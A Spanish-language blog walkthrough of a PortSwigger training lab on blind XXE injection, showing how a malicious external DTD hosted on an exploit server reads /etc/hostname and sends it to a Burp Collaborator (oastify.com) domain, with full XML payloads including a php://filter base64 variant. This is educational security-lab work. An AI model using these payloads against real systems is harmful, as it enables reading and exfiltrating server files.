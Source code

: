 ```yaml
---
title: XXE Injection Lab 5
date: 2024-11-27 12:26:00 +0800
lang: es-ES
author: Justice-Reaper
categories:
  - Portswigger
  - XXE Injection
tags:
  - XXE Injection
  - Exploiting blind XXE to exfiltrate data using a malicious external DTD
image:
  path: /assets/img/XXE-Injection-Lab-5/Portswigger.png
---
```


## Skills

- Exploiting blind XXE to exfiltrate data using a malicious external DTD

## Certificaciones

- eWPT
- eWPTXv2
- OSWE
- BSCP
  
## Descripción

Este laboratorio tiene una función de `Check stock` que analiza `entradas XML`, pero `no muestra el resultado`. Para resolver el laboratorio, hay que extraer el contenido del archivo `/etc/hostname`

---
## Resolución

Al `acceder` a la `web` nos sale esto

![](/assets/img/XXE-Injection-Lab-5/image_1.png)

Si pulsamos en `View details` veremos la `descripción` del `artículo`

![](/assets/img/XXE-Injection-Lab-5/image_2.png)

Si pulsamos en `Check stock` y `capturamos` la `petición` con `Burpsuite` vemos que se está tramitando un `XML`

![](/assets/img/XXE-Injection-Lab-5/image_3.png)

`Enviamos` una `petición` con un `DTD (Document Type Definition)` y a `comprobar` si es `vulnerable` a `XXE` pero no vemos nada interesante en la `respuesta`

```
<?xml version="1.0" encoding="UTF-8"?>
	<!DOCTYPE foo [<!ENTITY xxe "Doe"> ]>
	<stockCheck>
		<productId>
			&xxe;
		</productId>
		<storeId>
			1
		</storeId>
	</stockCheck>
```

Nos vamos a `Burpsuite Collaborator` y pulsamos en `Copy to clipboard`, este `dominio` obtenido lo vamos a usar para construir este `payload`, el `%` sirve para `llamar` a la `entidad` desde el `DTD` creado

```
<?xml version="1.0" encoding="UTF-8"?>
	<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "http://lqfvrsm0rxqxty3gudtykjjoifo6cx0m.oastify.com"> %xxe; ]>
	<stockCheck>
		<productId>
			1
		</productId>
		<storeId>
			1
		</storeId>
	</stockCheck>
```

Nos vamos a `Burpsuite Collaborator` y observamos que hemos `obtenido respuesta`, lo cual quiere decir que ya tenemos un `XXE out-of-band interaction`

![](/assets/img/XXE-Injection-Lab-5/image_4.png)

Lo que podemos hacer ahora que hemos confirmado que podemos `cargar` un `recurso` del `servidor externo` es pulsar en `Go to exploit server`, introducir este `payload` en la parte de `Body` y pulsar sobre `Store` para almacenarlo. Esto `&#x25` es `%` pero en `hexadecimal`, se debe poner así y no en el formato normal para que funcione correctamente

```
<!ENTITY % file SYSTEM "file:///etc/hostname">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'http://lqfvrsm0rxqxty3gudtykjjoifo6cx0m.oastify.com?content=%file;'>">
%eval;
%exfil;
```

En este laboratorio no funciona, pero podríamos usar este `wrapper` de `php` para `encodear` el `output` del `comando` en `base64` si es más de una línea

```
<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=/etc/hostname">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'http://lqfvrsm0rxqxty3gudtykjjoifo6cx0m.oastify.com?content=%file;'>">
%eval;
%exfil;
```

Lo siguiente que debemos hacer es irnos a donde pone `Craft response`, copiar la url `https://exploit-0aa200cb045beea1d8e97fad01f20055.exploit-server.net/exploit` y `enviar` la `petición`

```
<?xml version="1.0" encoding="UTF-8"?>
	<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "https://exploit-0aa200cb045beea1d8e97fad01f20055.exploit-server.net/exploit"> %xxe; ]>
	<stockCheck>
		<productId>
			1
		</productId>
		<storeId>
			1
		</storeId>
	</stockCheck>
```

Ahora nos vamos a `Burpsuite Collaborator`, pulsamos en `Resquest to Collaborator` y vemos el `/etc/hostname `

![](/assets/img/XXE-Injection-Lab-5/image_5.png)

`Submiteamos` la `solución` y `completamos` el `laboratorio`

![](/assets/img/XXE-Injection-Lab-5/image_6.png)
